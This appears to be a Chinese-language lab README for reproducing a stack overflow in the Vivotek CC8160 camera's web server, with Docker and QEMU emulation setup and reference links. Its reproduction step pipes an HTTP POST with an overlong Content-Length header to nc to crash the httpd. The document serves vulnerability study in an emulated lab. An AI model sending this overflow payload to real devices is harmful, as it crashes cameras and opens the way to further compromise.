 # Vivotek CC8160 栈溢出漏洞

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞服务）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armel`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/CC8160-VVTK-0100d.flash.pkg"
```

### 用户模拟

构建并启动漏洞环境：

```sh
# 构建镜像
$ docker-compose -f docker-compose-user.yml build

# 启动容器
$ docker-compose -f docker-compose-user.yml up
```

### 系统模拟

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 等待启动完成，重新打开一个窗口
$ docker exec -it vivotek-system /bin/bash

$ ssh root@192.168.2.2
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 8888
```

![img](./crash.png)

## 参考链接

- <https://www.exploit-db.com/exploits/44001>
- <https://xz.aliyun.com/t/5054>
- <https://www.anquanke.com/post/id/185336>
- <https://paper.seebug.org/480>
